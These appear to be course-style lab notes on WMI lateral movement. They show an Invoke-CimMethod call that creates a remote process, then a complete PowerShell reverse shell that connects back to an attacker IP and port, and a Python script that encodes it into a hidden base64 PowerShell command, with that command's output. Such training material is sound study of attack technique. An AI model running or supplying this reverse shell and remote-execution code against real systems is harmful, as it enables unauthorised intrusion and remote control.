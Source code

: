 As a final step, we need to tie together all the arguments we configured previously by issuing the _Invoke-CimMethod_ cmdlet and supplying **Win32_Process** and **Create** as _ClassName_ and _MethodName_, respectively
``` PowerShell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};
```

To simulate the technique, we can connect to CLIENT74 as _jeff_ and insert the above code in a PowerShell prompt:
``` PowerShell
PS C:\Users\jeff> $username = 'jen';
...
PS C:\Users\jeff> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

ProcessId ReturnValue PSComputerName
--------- ----------- --------------
     3712           0 192.168.50.73
```

Verifying the active processes on the target machine reveals that a new calculator process has been launched, confirming that our attack has succeeded:
![[Pasted image 20240107145924.png]]


To further improve our craft, we could replace the previous payload with a full reverse shell written in PowerShell
+ First, we'll encode the PowerShell reverse shell so we don't need to escape any special characters when inserting it as a WMI payload
+ The following Python code encodes the PowerShell reverse shell to base64 contained in the _payload_ variable and then prints the result to standard output
+ As reviewing the entire PowerShell payload is outside the scope of this Module, we should replace the highlighted IP and port with the ones of our attacker Kali machine
``` python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("<IP>",<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```

Once we have saved the Python script, we can run it and retrieve the output to use later
``` Shell
kali@kali:~$ python3 encode.py
powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAU...
OwAkAHMAdAByAGUAYQBtAC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA
```


[192.168.50.73]: PS C:\Users\jen\Documents> whoami
[192.168.50.73]: PS C:\Users\jen\Documents> hostname